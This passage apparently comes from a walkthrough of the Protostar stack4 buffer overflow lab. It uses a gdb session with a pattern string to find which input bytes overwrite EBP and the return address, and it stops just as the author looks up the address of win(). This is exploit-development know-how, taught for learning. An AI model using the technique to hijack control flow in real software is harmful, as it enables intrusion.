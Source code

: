 Now that we have **our breakpoints set**, let's **run it** and provide `QQQQWWWWEEEERRRRTTTTYYYY....` as input. After that, let's check out all of our registers to see **what letter overwritten EBP**.

```bash
(gdb) r
Starting program: /opt/protostar/bin/stack4 
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

Breakpoint 1, 0x0804841e in main (argc=Cannot access memory at address 0x4c4c4c54
) at stack4/stack4.c:16
16      stack4/stack4.c: No such file or directory.
        in stack4/stack4.c
(gdb) info registers
eax            0xbffff760       -1073744032
ecx            0xbffff760       -1073744032
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffff7ac       0xbffff7ac
ebp            0x4c4c4c4c       0x4c4c4c4c
esi            0x0      0
edi            0x0      0
eip            0x804841e        0x804841e <main+22>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

Now, **we see that EBP was overwritten** to `0x4c4c4c4c`, which is `LLLL` in ASCII. That means to **overwrite the return address**, we need to **first pass** `QQQQWWWWEEEERRRRTTTTYYYY...` until `LLLL`. Then, we can **overwrite the return address with anything we want** by just **appending it to the end** of the string.

```bash
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x5a5a5a5a in ?? ()
(gdb) 
```

Once we continue (`c`), we see that the **return address got overwritten** to `0x5a5a5a5a` (`ZZZZ`) because the **program tried to go to that memory address** which is of course **illegal**. That **checks out** with the EBP overwrite because `ZZZZ` was **right after** `LLLL` in the input string, which **matches up perfectly with our stack visual** from earlier. 

So now we need to get the **memory address** of the `win()` function. Do to that, we use the `p` command in GDB to **print the value of whatever comes after it**.
